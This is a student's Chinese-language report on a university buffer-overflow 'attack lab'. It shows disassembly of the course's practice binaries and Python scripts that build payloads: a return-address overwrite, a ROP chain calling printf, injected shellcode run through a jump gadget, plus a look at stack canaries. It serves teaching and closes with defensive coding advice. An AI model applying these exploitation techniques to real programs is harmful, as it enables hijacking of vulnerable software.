




# 栈溢出攻击实验

姓名：田家铭

学号：2024201556

## 题目解决思路（总述）
本次实验通过阅读反汇编并构造二进制 payload 文件，针对给定的练习程序触发并利用栈上的缓冲区溢出。两道题目的共同点是“上层将较长的数据写入到下层分配较短缓冲区”，但利用方式不同：Problem1 直接覆盖返回地址进行跳转；Problem2 在 NX 环境下使用 ROP 调用已有函数。

### Problem 1
#### 分析（漏洞定位）

由反汇编可见，目标函数 `func` 在栈上只分配了一个很小的局部缓冲区，但调用方会把更大的数据传入并使用不安全的复制函数拷贝到这里，导致溢出并覆盖返回地址，从而可以控制返回流向。

  以下为反汇编中的关键片段（截取自 `problem1.asm`）：

```602:615:/home/tjm/cs/rucics/attack-lab-Exyeus/problem1.asm
0000000000401232 <func>:
  401232:	f3 0f 1e fa          	endbr64
  401236:	55                   	push   %rbp
  401237:	48 89 e5             	mov    %rsp,%rbp
  40123a:	48 83 ec 20          	sub    $0x20,%rsp
  40123e:	48 89 7d e8          	mov    %rdi,-0x18(%rbp)
  401242:	48 8b 55 e8          	mov    -0x18(%rbp),%rdx
  401246:	48 8d 45 f8          	lea    -0x8(%rbp),%rax
  40124a:	48 89 d6             	mov    %rdx,%rsi
  40124d:	48 89 c7             	mov    %rax,%rdi
  401250:	e8 5b fe ff ff       	call   4010b0 <strcpy@plt>
```
`func` 将传入指针 (%rdi) 交给 `strcpy`，目标地址为 `-0x8(%rbp)`（仅 8 字节可用），但调用处把更长的数据读入后传入 `func`，因此会用更长的字符串覆盖 `func` 的返回地址。
所以考虑需把返回地址覆盖为程序中已存在的打印成功信息的函数地址。

我用任意的 16 字节+写入目标函数地址的低 4 个字节（小端写法），构成 20 字节的输入。


```python
# scripts/generate_ans1.py 的核心逻辑
padding = b'A' * 16
# 低 4 字节（小端）：目标打印函数地址 0x00401216
target_function_low4 = b'\x16\x12\x40\x00'
payload = padding + target_function_low4
with open('ans1.txt','wb') as f:
    f.write(payload)
```
#### 结果截图



### Problem 2
#### 分析

与 Problem1 不同，这里漏洞由 `memcpy` 固定长度拷贝造成：目标函数 `func` 在栈上分配 0x20（32）字节，但 `memcpy` 被调用时长度为 0x38（56），因此会覆盖保存的寄存器与返回地址，提供更可控的覆写空间，适合构造 ROP 链。

反汇编的关键片段

```643:656:/home/tjm/cs/rucics/attack-lab-Exyeus/problem2.asm
0000000000401290 <func>:
  401290:	f3 0f 1e fa          	endbr64
  401294:	55                   	push   %rbp
  401295:	48 89 e5             	mov    %rsp,%rbp
  401298:	48 83 ec 20          	sub    $0x20,%rsp
  40129c:	48 89 7d e8          	mov    %rdi,-0x18(%rbp)
  4012a0:	48 8b 4d e8          	mov    -0x18(%rbp),%rcx
  4012a4:	48 8d 45 f8          	lea    -0x8(%rbp),%rax
  4012a8:	ba 38 00 00 00       	mov    $0x38,%edx
  4012ad:	48 89 ce             	mov    %rcx,%rsi
  4012b0:	48 89 c7             	mov    %rax,%rdi
  4012b3:	e8 38 fe ff ff       	call   4010f0 <memcpy@plt>
```

在 `main` 中，程序使用 `fread` 把文件内容读入栈上的一个大缓冲区，然后把缓冲区传入 `func`。

- 利用思路
  - 基于提示，目标程序设置了栈不可执行，不能直接注入并执行；因此选择构造 ROP，利用程序内或 plt 中的函数来打印成功信息并退出。
  - ROP 目标：把字符串地址放入第一个参数寄存器（%rdi），调用 `printf@plt` 输出。
  - 需要找到合适的 gadget（典型：`pop rdi; ret`）并处理栈对齐（x86_64 调用约定要求调用指令前栈以 16 字节对齐）。

- 分析 objdump 所得代码，发现关键地址
  - `pop rdi; ret` gadget：0x4012c7
  - rodata 字符串 `"Yes!I like ICS!\n"` 地址：0x40203b
  - 用于对齐的短 `ret`：0x4012c8
  - `printf@plt`：0x4010d0
  - `exit@plt`：0x401120

```python
# scripts/generate_ans2.py 核心逻辑
padding = b'A' * 16
pop_rdi = (0x4012c7).to_bytes(8, 'little')
rodata_ptr = (0x40203b).to_bytes(8, 'little')
ret_gadget = (0x4012c8).to_bytes(8, 'little')   # 对齐用
printf_plt = (0x4010d0).to_bytes(8, 'little')
exit_plt = (0x401120).to_bytes(8, 'little')
payload = padding + pop_rdi + rodata_ptr + ret_gadget + printf_plt + exit_plt
# memcpy 在目标中拷贝 0x38 字节，需填充到至少该长度
if len(payload) < 56:
    payload += b'B' * (56 - len(payload))
with open('ans2.txt', 'wb') as f:
    f.write(payload)
```

- 实验结果


- 对齐与可靠性注意事项
  - x86_64 的 ABI 要求调用指令前栈需 16 字节对齐；在 ROP 链中插入了一个 `ret` gadget，用于调整返回地址对齐以避免在 `libc` 内部调用时崩溃
  - 固定长度的 `memcpy` 使得覆盖空间稳定（56 字节），比 `strcpy` 的依赖字符串长度更可控，但同时需要精确计算偏移和填充。

### Problem 3:
- 分析
  - 注意到 `func` 函数中，程序从文件读取最多 0x100 字节到主函数栈上缓冲区，然后传递给 `func`；`func` 内用 `memcpy` 从输入拷贝 0x40 字节到栈上局部缓冲区（仅 0x20 字节大小），导致溢出覆盖返回地址。
  - 所以，通过溢出覆盖 `func` 的返回地址为 `jmp_xs` (0x401334)；`jmp_xs` 会跳转到 `saved_rsp + 0x10`，而 `saved_rsp` 在 `func` 调用时保存了栈顶指针（指向局部缓冲区），因此跳转到缓冲区执行 shellcode。
  - `jmp_xs` 的行为：从全局变量 `saved_rsp` 读取值，加 0x10，然后无条件跳转到该地址。这使得我们可以将 shellcode 放在缓冲区起始，通过返回地址劫持让程序执行它。
  - 目标：输出幸运数字 "114"（通过调用 `func1(0x72)`，该函数检查参数 == 0x72 时打印包含 "114" 的成功消息）。
  - README 提示之中，本题目可以使用 GDB 模式来输出 114。对此，可以使用 `(gdb) set {char[4]} (%rbp-0x40) = {'1', '1', '4', '\0'}` 来输出 114.

- 解决方案
  - 方法：注入 shellcode 调用 `func1(0x72)`，利用程序现有的逻辑打印成功消息。
  - shellcode 设计：位置无关，直接设置参数并跳转到 `func1` 地址。
  - Payload 布局：shellcode（16 字节） + 填充（24 字节到返回地址） + `jmp_xs` 地址（8 字节） + 填充（到 64 字节）。
  - 使用 GDB 强行修改。

- 关键地址（来自反汇编）
  - `jmp_xs` gadget：0x401334（用于劫持返回地址）
  - `func1` 函数：0x401216（目标函数，检查参数 0x72）

- Payload（可复现的 Python 代码）

```python
# scripts/generate_ans3.py 的核心逻辑（高层）
shellcode = b'\x48\xc7\xc7\x72\x00\x00\x00'  # mov rdi, 0x72
shellcode += b'\x48\xc7\xc0\x16\x12\x40\x00'  # mov rax, 0x401216 (func1)
shellcode += b'\xff\xe0'                      # jmp rax

jmp_xs = (0x401334).to_bytes(8, 'little')
payload = shellcode
payload += b'A' * (40 - len(payload))  # 填充到返回地址偏移
payload += jmp_xs                      # 覆盖返回地址
payload += b'B' * (64 - len(payload))  # 填充到 memcpy 长度
with open('ans3.txt', 'wb') as f:
    f.write(payload)
```

- 实验结果




### Problem 4:
- 分析
  - Problem4 所有函数（main、func、func1、caesar_decrypt）都使用栈canary来检测栈溢出。
  - 程序无法通过已知的栈溢出操作破解，从内部汇编代码来看，更多在于构造巧妙的输入，解密硬编码字符串，并根据用户输入整数进行复杂验证。经过更多了解，该背景在于凯撒解密。

- 解决方案
  - 通过分析汇编逻辑解决。main函数解密并输出提示信息，然后读取用户整数输入，调用func函数验证。
  - func函数通过复杂的循环和比较验证输入是否为-1。如果输入-1经过循环变换后满足x=1且原始输入=-1的双重条件，就可以触发成功分支。

- 关键地址和机制
  - Canary加载：`mov %fs:0x28, %rax` (TLS段偏移0x28)
  - Canary验证：`sub %fs:0x28, %rax; je success`
  - 凯撒解密：`caesar_decrypt`函数，偏移12


- 实验结果



## 思考与总结

1. 避免使用`strcpy`、`strcat`等不检查边界的函数，优先使用`strncpy`、`memcpy`等安全版本
2. **编译时防护**：启用`-fstack-protector`、`-z noexecstack`、`-pie`等编译选项
3. **代码审查**：定期检查缓冲区操作，实施边界检查和长度验证

程序的安全是多层防御机制+良好编码习惯的结果。理解并综合利用这些机制有助于编写更安全的代码程序，使之更加难以被攻破。

## 实验复现脚本与文件
位于 `scripts/` 目录的是一系列payload生成脚本，可以 `python3 file` 运行之。例如，`python3 generate_ans1.py` 可以生成Problem1的ans1.txt。


## 参考资料
- 仓库内反汇编文件
- ChatGPT: https://chatgpt.com
- CSAPP 第三版 相关内容
- ICS I 相关课件

